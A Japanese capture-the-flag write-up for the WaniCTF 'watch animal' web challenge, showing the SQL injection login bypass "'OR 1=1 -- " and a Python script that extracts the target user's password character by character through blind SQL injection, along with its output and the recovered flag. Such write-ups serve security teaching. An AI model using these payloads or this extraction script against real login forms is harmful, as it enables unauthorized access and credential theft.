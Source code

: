 # watch animal (219pt Very hard)
# 問題文

スーパーかわいい動物が見れるWebサービスを作ったよ。

wanictf21spring@gmail.com

のメアドの人のパスワードがフラグです。

https://watch.web.wanictf.org/

# やったこと

与えられたリンクにアクセスすると，ログイン画面が表示された．

![](s1.png)

おもむろに Email addressに"wanictf21spring@gmail.com"を，
Passwordに"'OR 1=1 -- "を入力したところ，ログインが成功し，以下のページが表示された．

![](s2.png)

フラグはこのユーザのパスワードである．
ログイン出来る or ログインできないの情報を使ってパスワードを一文字づつ推測する方法でパスワードを探索することにした．

この方法をPythonを使って自動化した．

```python
import requests

def attack(ans):
    url = 'https://watch.web.wanictf.org/'
    
    cs = list(map(str, range(10)))
    cs += [chr(0x41 + i) for i in range(26)]
    cs += [chr(0x61 + i) for i in range(26)]
    cs += ['_', '-', '.', '$', '@', '!', '?', '{', '}']
    
    for c in cs:
        data = {'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY '{}%' -- ".format(ans + c)}

        ret = requests.post(url, data=data)
        print(data)

        # print('Failed' in ret.text, len(ret.text))
        if not 'Failed' in ret.text:
            ans += c
            return ans

if __name__ == "__main__":
    ans = ''

    while True:
        ans = attack(ans)
        print('password:', ans)
```

```
$python solver.py

...
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_!%' -- "}
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_?%' -- "}
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_{%' -- "}
{'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY 'FLAG_bl1ndSQLi_}%' -- "}
password: None
Traceback (most recent call last):
  File "solver.py", line 26, in <module>
    ans = attack(ans)
  File "solver.py", line 12, in attack
    data = {'email': 'wanictf21spring@gmail.com', 'password': "'OR password LIKE BINARY '{}%' -- ".format(ans + c)}
TypeError: unsupported operand type(s) for +: 'NoneType' and 'str'
```

フラグっぽい文字列が得られた．

FLAG_bl1ndSQLi_

_を{}に変えたものがフラグだった．

# フラグ
FLAG{bl1ndSQLi}


